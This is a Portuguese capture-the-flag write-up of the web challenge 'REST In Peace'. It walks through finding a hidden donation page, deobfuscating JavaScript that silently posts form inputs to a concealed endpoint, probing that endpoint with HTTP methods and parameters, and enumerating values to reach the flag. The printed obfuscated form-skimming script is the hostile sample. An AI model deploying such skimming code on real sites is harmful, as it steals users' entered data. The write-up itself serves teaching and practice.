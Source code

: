 # REST In Peace

**Flag:** `Ganesh{W3B_w4S_Ch4ot1c_3v1L}`

Neste desafio nos deparamos primeiramente com uma página bem simples com apenas alguns textos e inglês e nenhum tipo de formulário, botão, link ou funcionalidade aparente. Como procedimento padrão vamos então analisar o código fonte da página para ver se encontramos algo de interessante...

Analisando o HTML vemos que de de fato não há nada além de um style.css sendo incluso. Podemos ver, porém, que há um rodapé contendo um **link comentado** logo no fim da página.

```text
<footer>
   <!-- <p class="text-center"><a href="donate.html">Donation</a></p> -->
</footer>
```

Seguindo então para o link `/donate.html` nos deparamos com o que aparenta ser um formulário de doações.

Para testar o formulário, insiro alguns dados de teste mas aparentemente o botão de envio não funciona e os dados não são enviados.

Novamente, realizo a inspeção do HTML para verificar a estrutura da página e me deparo com algo que parece ser código _Javascript_ porém obfuscado e minificado.

```text
var _0x451a=['value','name','querySelectorAll','querySelector','change','onreadystatechange','send','preventDefault','floor','onsubmit','Content-type','open','form','Zm9vbGluZyB0aGUgZm9vbA.php','random','application/x-www-form-urlencoded','input','&aaa=','length'];(function(_0xbf8d17,_0x451a78){var _0x424f6d=function(_0x3df864){while(--_0x3df864){_0xbf8d17['push'](_0xbf8d17['shift']());}};_0x424f6d(++_0x451a78);}(_0x451a,0x96));var _0x424f=function(_0xbf8d17,_0x451a78){_0xbf8d17=_0xbf8d17-0x0;var _0x424f6d=_0x451a[_0xbf8d17];return _0x424f6d;};var randomID=Math[_0x424f('0xa')](Math[_0x424f('0x10')]()*0x81b79)+0x2;var inputs=document[_0x424f('0x4')](_0x424f('0x12'));function prv(_0x5003b2){_0x5003b2[_0x424f('0x9')]();}document[_0x424f('0x5')](_0x424f('0xe'))[_0x424f('0xb')]=prv;for(i=0x0;i<inputs[_0x424f('0x1')];i++){inputs[i]['addEventListener'](_0x424f('0x6'),function(_0x4560b5,_0x4098fd){let _0x2308ad='f='+this[_0x424f('0x3')]+'&v='+this[_0x424f('0x2')]+_0x424f('0x0')+randomID;setTimeout(function(){var _0x268119=new XMLHttpRequest();_0x268119[_0x424f('0xd')]('POST',_0x424f('0xf'),!![]);_0x268119['setRequestHeader'](_0x424f('0xc'),_0x424f('0x11'));_0x268119[_0x424f('0x7')]=null;_0x268119[_0x424f('0x8')](_0x2308ad);},0x1f40);});}
```

Começo então à procurar formas de desobfuscar o código e a primeira coisa que me vem á mente é deixar o código mas legível utilizando alguma ferramenta que reverta a minificação. Para isso utilizo o site: [https://beautifier.io/](https://beautifier.io/)

```text
(function(_0xbf8d17, _0x451a78) {
    var _0x424f6d = function(_0x3df864) {
...
...
...
document[_0x424f('0x5')](_0x424f('0xe'))[_0x424f('0xb')] = prv;
for (i = 0x0; i < inputs[_0x424f('0x1')]; i++) {
    inputs[i]['addEventListener'](_0x424f('0x6'), function(_0x4560b5, _0x4098fd) {
        let _0x2308ad = 'f=' + this[_0x424f('0x3')] + '&v=' + this[_0x424f('0x2')] + _0x424f('0x0') + randomID;
        setTimeout(function() {
            var _0x268119 = new XMLHttpRequest();
            _0x268119[_0x424f('0xd')]('POST', _0x424f('0xf'), !![]);
            _0x268119['setRequestHeader'](_0x424f('0xc'), _0x424f('0x11'));
            _0x268119[_0x424f('0x7')] = null;
            _0x268119[_0x424f('0x8')](_0x2308ad);
        }, 0x1f40);
    });
}
```

Reparo então que algumas funções não foram devidamente ofuscadas, dentre elas as funções: `addEventListener`, `setTimeout` e `XMLHttpRequest`.

Mesmo com o código obfuscado, podemos analisar e inferir que em algum momento, um **timer** será declarado e irá esperar _**0x1f40 = 8000 ms \(8 seg.\)**_ para realizar alguma requisição assíncrona via javascript.

Olhando o início do código obfuscado, vemos também uma sequência de strings e, dentre elas, `change` e `onsubmit`. Vamos testar no site então, analisando a aba de Redes, se algum desses gatilhos de fato dispara o XMLHttpRequest.

![Requisi&#xE7;&#xF5;es Ass&#xED;ncronas](https://i.imgur.com/TTnm7Bm.png)

Boa! Após inserir alguns dados, apertar submit e esperar os 8 segundos vemos que de fato há o fluxo de algumas requisições aparecendo em nossa aba de redes e, aparentemente, o gatilho do AJAX foram as mudanças nos campos de texto \(`change`\). Vamos analisar essas requisições.

_Obs: foram removidos os cabeçalhos automáticos do navegador_

```text
POST /Zm9vbGluZyB0aGUgZm9vbA.php HTTP/1.1
Host: web.ganeshicmc.com:1331
Content-type: application/x-www-form-urlencoded
Content-Length: 24

f=name&v=Teste&aaa=30899
```

Vemos então que os dados são enviados em `x-www-form-urlencoded` com 3 campos com nomes não tão legiveis. Mas após analisar um pouco o HTML reparamos que `f` sempre se remetia ao `name` do campo de texto e `v` ao value do campo durante o disparo da requisição.

Além disso, ao analisarmos a `Response` dessas requisições, vemos que o site retorna `1 Row inserted.`. Ou seja, a requisição deve estar realizando alguma espécie de cadastro.

Bom... temos uma nova URL para desbravar. Entrando nela diretamente pelo Browser nos deparamos com algo curioso: uma lista de resultados que nos permite inferir que os dados enviados via Ajax estão, na verdade, sendo salvos em uma espécia de banco de dados.

![P&#xE1;gina GET](https://i.imgur.com/y1J8txJ.png)

Nessa vez, ao realizar a inspeção da página, não nos deparamos com nenhum outro dado que pareça nos dar alguma dica \(_até há algumas tags PHP e javascript, mas elas aparentam ter sido salvas pelos outros jogadores e não fazer parte do CTF_\).

Neste ponto, nos resta apenas tentar trabalhar diretamente na própria requisição para verificar como a url irá responder à tais mudanças.

Podemos pensar em:

* Variar o métodos HTTP
* alterar os Cookies
* alterar os parâmetros
* alterar as variáveis via URL \(?a=A&b=B\)
* inserir/alterar novos cabeçalhos.

_Obs: Para tornar essa parte mais fácil, eu utilizei a ferramenta Insomnia. Porém é possível utilizar também o ZAP, BurpSuite ou qualquer outra ferramenta capaz de realizar disparos de requisições da sua preferência._

Quanto à inserção de Cookies e novos cabeçalhos, acredito que essas são as opções mais improváveis e complicadas de testar por necessitar de muita adivinhação e força bruta, portanto deixo elas para última necessidade.

**Alterando o Método:**

Lembrando um pouco de API's REST. Ja vimos que a URL realiza um cadastro durante o `POST` e retorna dados durante o `GET`. E se tentarmos então o método DELETE?

![Insomnia DELETE](https://i.imgur.com/K5kjNXD.png)

Nos deparamos então com uma linguagem em outra lingua que o Google Tradutor prontamente nos socorre identificando que é alemão e que diz:

```text
Acesso negado.
Se o erro persistir, leia a documentação OPEN API YAML.
```

Essa mensagem aparece para todos os métodos com exceção de `POST` e `GET` e sempre nos exibe um link com uma documentação doida sobre uma ferramenta que, aparentemente, serve para documentar API's mas deixei isto de lado por enquanto...

**Alterando os parâmetros**

Voltando ao `POST` anterior, após realizar alguns testes foi possível descobrir que os campos `f` e `v` são obrigatórios e o `aaa` não. Tentei realizar alguns SQL Injections para verificar se a query era vulnerável e o site retornava uma resposta quebrada mas não houve nenhum efeito.

![Insomnia POST](https://i.imgur.com/hmQc6ed.png)

**Alterando a query da URL \(?a=A&b=B\)**

Por fim, a última tentativa foi a de verificar se os parâmetros da URL influenciariam a resposta do servidor. A primeira opção poderia ser tentar fazer um brute force de nomes de parâmetros. Porém, como no POST ja são utilizadas `f`,`v` e `aaa` vamos primeiro testar estas e ver o que acontece.

![Insomnia GET aaa=30899](https://i.imgur.com/xk3WjQ5.png)

Boa! Vemos que o resultado já difere do `GET` recebiamos antes e aparentemente somente os dados enviados pelos nossos `POST` são exibidos.

Brincando um pouco mais, podemos ver que o campo `aaa` é o que de fato está sendo utilizado para filtrar os dados de resultado!!!.

Fazendo uma enumeração de valores baixos começando com 0, encontramos a flag quando `aaa = 1` e **encerramos o Chall.**

![Insomnia GET aaa=1](https://i.imgur.com/Gxul1wh.png)

**Mas e o tal do link de documentação que encontramos ao mudar o Método?** Bom, ao analizar o link com um pouco mais de calma vemos que se trata de uma forma de documentar as entradas e saídas de uma API utilizando uma ferramenta que gera um arquivo `openapi.yaml` ou `openapi.json`.

Ao testarmos a existência desses arquivos na url nos deparamos com a seguinte resposta:

![openapi.yaml](https://i.imgur.com/JZk6OCI.png)

Este poderia ser um outro caminho para a resolução do chall. Pois podemos ver que a documentação diz que o método GET pode ser utilizado em conjunto com o parâmetro `aaa` para buscar dados específicos do servidor. Este no entanto demandaria um pouco mais da intuição e paciência em entender do que o link se tratava.

```yaml
paths:
  /Zm9vbGluZyB0aGUgZm9vbA.php:
    get:
      summary: Return a sublist of stolen data.
      description: Return a sublist of stolen data or all data identified from the given parameter.
      parameters:
        - name: aaa
          in: path
          description: Get all data identified from the given value. 
          required: false
          schema:
              type : integer
              format: int64
              minimum: 1
      responses:
        '200':  
          description: Table with stolen data.
```

